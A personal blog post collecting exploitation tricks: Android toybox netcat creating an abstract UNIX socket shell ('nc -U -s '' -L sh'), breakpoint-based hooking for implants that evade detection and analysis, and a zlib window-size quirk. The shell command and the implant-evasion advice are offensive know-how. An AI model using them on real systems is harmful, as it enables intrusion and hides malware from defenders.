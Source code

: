 ```yaml
---
title: 'Bag of Tricks'
description: 'Various tricks compiled into a blog post'
pubDate: 2023-10-14
tags: ["netcat", "network", "zlib", "hooks", "debug"]
---
```


# Bag of Tricks

There are various tricks I've discovered when trying to exploit binaries for fun and profit. Here are a list of some of them.

## Trick 1: Creating Abstract UNIX Sockets on Android via Netcat

``netcat`` on Android was never meant to create abstract UNIX sockets. It takes the name of the abstract socket to create and then creates it in the filesytem.

This can be further confirmed by viewing the [source code](https://github.com/landley/toybox/blob/master/toys/net/netcat.c)

```c
// open AF_UNIX socket
static int usock(char *name, int type, int out)
{
  int sockfd;
  struct sockaddr_un sockaddr;

  memset(&sockaddr, 0, sizeof(struct sockaddr_un));

  if (strlen(name) + 1 > sizeof(sockaddr.sun_path))
    error_exit("socket path too long %s", name);
  strcpy(sockaddr.sun_path, name);
  sockaddr.sun_family = AF_UNIX;

  sockfd = xsocket(AF_UNIX, type, 0);
  (out?xconnect:xbind)(sockfd, (struct sockaddr*)&sockaddr, sizeof(sockaddr));

  return sockfd;
}
```

However, an empty name is perfectly acceptable to this function and UNIX sockets exist in the abstract namespace if the first byte is null so ``netcat`` accidentally allows the creation of and connection to an abstract UNIX socket reverse shell through the below command.

```sh
# Make the abstract UNIX socket reverse shell
nc -U -s '' -L sh

# Connect to the abstract UNIX socket reverse shell
nc -U ''
```

Why this trick can come in handy is that some processes on Android will have extremely restrictive permissions when it comes to making files on the filesystem and creating sockets, but will allow the creation of abstract UNIX sockets.

This trick paired with the appropriate ROP gadget makes your life 10x easier when trying to pop a reverse shell for such restrictive processes.

## Trick 2: Function Hooks via Breakpoints

This one isn't exactly a new trick yet it's a trick I strangely don't see or hear a lot of people use.

All major operating systems provide a way for the process to hook its own breakpoints with its own handler.

For POSIX, hooking is done via ``sigaction`` with the ``SIGTRAP`` signal. For Windows, it's done via ``AddVectoredExceptionHandler`` with the ``EXCEPTION_BREAKPOINT`` exception.

This trick allows applying "detours" to be atomic which is important when making an implant where accidentally crashing the process is not an option.

If the implanter decides to use hardware instead of software breakpoints, code patching is not even needed. This may even thwart a naive cheat detection engine or anything similar. It's also significantly harder for a malware analyst to use hardware breakpoints themselves to analyze the implant.

The biggest downside is that performance for this method of hooking is much slower than detours or function pointer patching.

## Trick 3: Zlib's Max Window Size

In the [zlib Technical Details](https://www.zlib.net/zlib_tech.html) under **Compression Factor Design Quirk**, the window size is limited to ``((1 << wbits) - 262)`` rather than ``(1 << wbits)``.

If the max window size is ``w`` when decompressing, the internal ring buffer of the decompressor would need to have at least a size of ``w + 1`` bytes to successfully decompress the payload.

This then turns this piece of trivia into a powerful detail because when configuring a ``zlib`` compressor with ``wbits``,  it allows an embedded device with a RAM size of ``(1 << wbits)`` available for the decompressor to still be able to decompress the stream it produces because the number of bytes needed becomes ``((1 << wbits) - 261)`` rather than ``((1 << wbits) + 1)``. 